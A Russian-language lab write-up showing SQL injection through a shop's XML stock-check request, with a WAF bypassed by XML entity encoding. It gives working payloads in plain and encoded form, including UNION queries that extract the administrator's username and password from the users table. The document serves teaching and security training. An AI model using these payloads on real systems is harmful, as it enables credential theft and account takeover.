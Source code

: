 # SQL-инъекция с обходом фильтра через XML

## Дисклеймер
---

**Текст был написан и переведен автором вручную. Языковая модель использовалась для форматирования и стилистической правки.**

**Данный материал предоставлен исключительно в образовательных и исследовательских целях. Я не призываю и не поощряю несанкционированный доступ к информационным системам или нарушение закона. По моему мнению, одним из наиболее эффективных способов борьбы с киберпреступностью является просвещение как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о распространенных уязвимостях, которые потенциально могут быть использованы злоумышленниками для совершения противоправных действий.**

**⚠️ Все действия, описанные в этом документе, были выполнены в авторизованной исследовательской среде (CTF/тестовый полигон), без нарушения прав третьих лиц или действующего законодательства.**

**Несанкционированное вмешательство в компьютерные системы, нарушение правил хранения и обработки данных и другие формы так называемого «черного» хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

## Приложение
---

![placeholder](images/labCard.png)

Приложение представляет собой магазин с забавными товарами:

![Лаб](images/SqliLab3Target.png)

## Функционал
---

У каждого товара на странице деталей есть кнопка `Check stock`, которая показывает количество единиц товара на складах в разных городах:

![Поиск](images/SqliLab3Function.png)

Функция `Check stock` отправляет на бэкенд запрос, содержащий XML:

![Запрос](images/SqliLab3CheckStockXML.png)

```XML
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			13
		</productId>
		<storeId>
			1
		</storeID>
	</stockCheck>
```

Это и есть наша точка инъекции!

## Эксплуатация
---

Однако WAF обнаружит сырой вредоносный ввод:

![Блокировка](images/SqliLab3WAFBlock.png)

Приложение по-прежнему будет понимать закодированную версию `storeId`, при условии, что она валидна. В данном случае `storeId = 1` обрабатывается так же, как `storeId = &#49;`:

![СимволXML](images/LabSqliXMLWorks.png)

Это означает, что можно передавать полезные нагрузки, закодированные в XML, для эксплуатации уязвимости SQL-инъекции.

```SQL
1' OR 1=1 --
```

Ниже представлена версия этой PoC-нагрузки для SQL-инъекции, закодированная в XML:

```XML
&#49;&#39;&#32;&#79;&#82;&#32;&#49;&#61;&#49;&#32;&#45;&#45;&#32;
```

Это приведет к выводу всех единиц товара во всех магазинах:

![PoC](images/SqliLab3Poc2.png)

Учитывая, что главная цель лабы — войти в систему как пользователь `administrator`, лучшим вариантом является подход на основе `UNION`.

Этот запрос позволит проверить, сколько столбцов возвращает запрос, и доступна ли таблица `users` (в данном случае количество `NULL`-заполнителей равно 1):

```SQL
1' UNION SELECT NULL FROM users --
```

Закодировано в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#45;&#45;&#32;
```

Он работает!

![УспехUnion](images/SqliLab3UnionSuccess.png)

Теперь извлечем данные из таблицы `users`:

```SQL
1' UNION SELECT password FROM users WHERE username='administrator' --
```

Кодирование в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;
```

![УспехUnion2](images/SqliLab3UnionPasswordSuccess.png)

Чтобы сделать результат более наглядным, можно использовать полезную нагрузку с конкатенацией, чтобы извлечь одновременно `username` и `password` из таблицы, разделив их разделителем `\|/`:

```SQL
1' UNION SELECT username || '\|/' || password FROM users WHERE username='administrator' --
```

Закодировано в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#124;&#124;&#32;&#39;&#92;&#124;&#47;&#39;&#32;&#124;&#124;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;
```

![Разделитель](images/SqliLab3UnionDelimeter.png)

Теперь полученные учетные данные можно использовать для входа в систему как пользователь `administrator`, что решает лабу:

![Решение](images/Lab3Solved.png)

Спасибо за внимание! ^^